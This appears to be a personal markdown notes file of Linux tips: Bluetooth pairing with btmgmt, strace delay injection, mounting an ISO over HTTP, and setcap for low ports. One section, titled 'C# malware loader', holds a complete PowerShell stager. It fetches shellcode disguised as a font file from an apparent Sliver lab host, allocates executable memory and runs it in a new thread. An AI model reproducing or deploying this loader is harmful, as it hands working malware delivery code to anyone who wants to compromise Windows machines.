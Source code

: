 # Random stuff

## Bt cli connect/LE

> From kde ru telegram

```
sudo btmgmt power off
sudo btmgmt discov on
sudo btmgmt connectable on
sudo btmgmt pairable on
sudo btmgmt power on
pair {mac моих наушников}


Наушники подключаются в режиме LE, можно увидеть с помощью команды hcitool, но без звука, в панели громкости kde в качестве устройства для вывода не появляются, но как только дописывают
вместо pair, connect {MAC}, то теперь и LE и ACL можно увидеть через hcitool, до этих махинация только ACL всегда было
```

## C# malware loader

siren: also since psh is a fucking C# interpreter you might as well use it to execute a proper stager

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
[DllImport("kernel32")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress,
    uint dwSize,
    uint flAllocationType,
    uint flProtect);
[DllImport("kernel32", CharSet=CharSet.Ansi)]
public static extern IntPtr CreateThread(
    IntPtr lpThreadAttributes,
    uint dwStackSize,
    IntPtr lpStartAddress,
    IntPtr lpParameter,
    uint dwCreationFlags,
    IntPtr lpThreadId);
[DllImport("kernel32.dll", SetLastError=true)]
public static extern UInt32 WaitForSingleObject(
    IntPtr hHandle,
    UInt32 dwMilliseconds);
}
"@
Add-Type $Win32

$shellcode = (New-Object System.Net.WebCLient).DownloadData("http://sliver.labnet.local/fontawesome.woff")
if ($shellcode -eq $null) {Exit};
$size = $shellcode.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x1000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $addr, $size)
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

## Strace inject

strace -e inject=fdatasync:delay_enter=10000000 dolphin

## Mount iso

> From: https://aur.archlinux.org/packages/ttf-ms-win10-auto

echo "  - Mounting HTTP file"
httpfs2 -c /dev/null "$_iso" mnt/http
echo "  - Creating loop device"
_isoFile="mnt/http/$(echo "$_iso" | awk -F "/" '{print $NF}')"
_loopDev=$(udisksctl loop-setup -r -f "${_isoFile}" --no-user-interaction 2>/dev/null | awk '{print $NF}')
_loopDev=$(losetup --list | grep "$_isoFile" | awk '{print $1}')
echo "  - Mounting loop device: $_loopDev"
_mountpoint=$(udisksctl mount -t udf -b "$_loopDev" --no-user-interaction | awk '{print $NF}')
echo "  - Loop device mounted as ISO at: $_mountpoint"

## Bash redirect all stdout 🙃

exec 1> >(ccze -A)

## Unpriviliged ports

setcap 'cap_net_bind_service=+ep' /path/to/program

## Images
https://pomf2.lain.la/f/0hvkp6v.tar.gz
